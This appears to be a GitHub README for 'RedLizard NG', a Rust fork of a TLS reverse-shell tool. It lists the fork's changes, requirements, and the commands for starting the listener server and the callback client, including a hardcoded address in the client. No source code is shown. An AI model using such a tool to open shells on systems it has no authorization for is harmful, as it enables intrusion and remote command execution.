

# RedLizard NG
### Forked from: https://github.com/trickster0/RedLizard

#### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


#### Requirements:
- rustc & cargo 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
#### Advises
- Generate certificate using OpenSSL: https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs
- better run server on linux

#### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
./redlizard_server zinz 4443
```

#### Run the client
Pass the server:port as argument.
```
./redlizard_client.exe 192.168.1.10:4443
```

##### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```
 "127.0.0.1:4443".to_owned()
```



All the credits to [trickster0](https://github.com/trickster0)
